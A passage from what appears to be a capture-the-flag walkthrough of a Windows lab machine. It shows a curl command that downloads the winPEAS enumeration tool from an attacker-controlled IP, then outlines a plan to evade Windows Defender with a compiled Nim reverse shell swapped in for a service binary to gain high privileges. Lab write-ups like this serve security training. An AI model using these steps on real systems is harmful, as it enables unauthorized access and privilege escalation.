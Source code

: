 Now we can download it to our target machine :

```bash
tyler@HACKSMARTERSEC C:\Users\tyler\Desktop>curl http:/10.8.162.183/winPEASx86.exe -o winPEASx86.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 9918k  100 9918k    0     0  1653k      0  0:00:06  0:00:06 --:--:-- 1991k

tyler@HACKSMARTERSEC C:\Users\tyler\Desktop>dir 
 Volume in drive C has no label.     
 Volume Serial Number is A8A4-C362   
 
 Directory of C:\Users\tyler\Desktop 

07/28/2025  02:04 PM    <DIR>          .
07/28/2025  02:04 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/27/2023  09:42 AM                25 user.txt
07/28/2025  02:04 PM        10,156,032 winPEASx86.exe
               4 File(s)     10,157,138 bytes
               2 Dir(s)  14,098,526,208 bytes free
```

We have it in our Desktop now we can run it :

```
tyler@HACKSMARTERSEC C:\Users\tyler\Desktop>.\winpeas.exe
The system cannot execute the specified program.
```

Seems [Windows](../../3%20-%20Tags/Hacking%20Concepts/Windows.md) Defender is blocking the file, we have to find another way, i tried .bat, .ps1, even obfuscated ones will not work.
## Bypass Windows Defender

1. **Objective:** Compiling a reverse shell written in the Nim programming language.
2. **Purpose:** This is done to evade detection by Windows Defender.
3. **Execution Plan:** The compiled binary of the reverse shell will be used to replace the original binary on the target machine.
4. **Trigger:** When the service associated with the replaced binary is stopped and then started by the user.
5. **Outcome:** The new malicious binary will be executed instead of the original one.
6. **Result:** This will establish a reverse shell connection with high privileges, potentially granting unauthorized access to the target machine.

The machine doesn't receive updates so there's something we can try with [Nim](../../3%20-%20Tags/Programming%20Languages/Nim.md) [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) :
